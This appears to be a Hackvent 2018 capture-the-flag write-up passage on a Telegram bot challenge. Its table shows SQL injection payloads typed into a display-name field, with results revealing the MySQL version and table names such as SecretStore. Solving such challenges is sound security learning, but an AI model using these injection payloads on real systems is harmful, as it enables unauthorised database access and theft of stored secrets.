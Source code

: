 ### Solution

After a lot of playing around with various commands, eventually I came
to try changing my display name:

![](/img/hackvent2018-telegram-sql-poc.gif)

From there, I'll start to build out different SQL Injections:

  -----------------------------------------------------------------------------------------------
  First Name                    Last Name                    Result
  ----------------------------- ---------------------------- ------------------------------------
  ' union select 1,@@version;   df                           1 - 5.7.20
  \#                                                         

  ' union select table_name,1   df                           CHARACTER_SETS - 1\
  from                                                       ...\[snip\]...INNODB_SYS_FOREIGN -
  information_schema.tables; \#                              1\
                                                             INNODB_SYS_TABLESTATS - 1\
                                                             SecretStore - 1 \<----- this is
                                                             interesting\
                                                             User - 1\
                                                             Wish - 1\
